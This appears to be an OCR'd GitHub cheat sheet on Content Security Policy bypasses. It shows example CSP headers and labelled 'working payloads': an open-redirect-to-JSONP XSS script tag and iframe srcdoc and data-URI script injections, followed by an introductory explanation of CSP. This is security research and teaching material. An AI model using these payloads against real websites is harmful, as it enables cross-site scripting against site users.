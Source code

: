 ```
**Scenario** : 9
```
Content-Security-Policy: script-src 'self' accounts.google.com/random/ website.with.redirect.com ; object-src 'none' ; report-uri /Report-parsing-url;

```
In the above scenario, there are two whitelisted domains from where scripts can be loaded to the webpage. Now if one domain has any open redirect endpoint CSP can be bypassed easily. The reason behind that is an attacker can craft a payload using redirect domain targeting to other whitelisted domains having a jsonp endpoint. And in this scenario XSS will execute because while redirection browser only validated host, not the path parameters.
**working payload** :
```
">'><script src="https://website.with.redirect.com/redirect?url=https%3A//accounts.google.com/o/oauth2/revoke?callback=alert(1337)"></script>"> 

```
**Scenario** : 10
```
Content-Security-Policy: 
default-src 'self' data: *; connect-src 'self'; script-src  'self' ;
report-uri /_csp; upgrade-insecure-requests

```
THE above CSP policy can be bypassed using iframes. The condition is that application should allow iframes from the whitelisted domain. Now using a special attribute srcdoc of iframe, XSS can be easily achieved.

**working payloads** :
```
<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>

```
* sometimes it can be achieved using defer& async attributes of script within iframe (most of the time in new browser due to SOP it fails but who knows when you are lucky?)
```
<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>

```
Special thanks to @mikispag & @we1x for their contribution to Google Security research in the domain of Content Security Policy secure implementation.

# Thank You!


For any feedback or suggestions reach out to me @Bhavesh_Thakur_


##
##

Content Security Policy CSP Bypass
What is CSP
Content Security Policy or CSP is a built-in browser technology which helps protect from attacks such as cross-site scripting (XSS). It lists and describes paths and sources, from which the browser can safely load resources. The resources may include images, frames, javascript and more. Here is an example of allowing resource from the local domain (self) to be loaded and executed in-line and allow string code executing functions like eval, setTimeout or setInterval:

Content Security Policy is implemented via response headers or meta elements of the HTML page. The browser follows the received policy and actively blocks violations as they are detected.

Implemented via response header:

1
Content-Security-policy: default-src 'self'; img-src 'self' allowed-website.com; style-src 'self';
```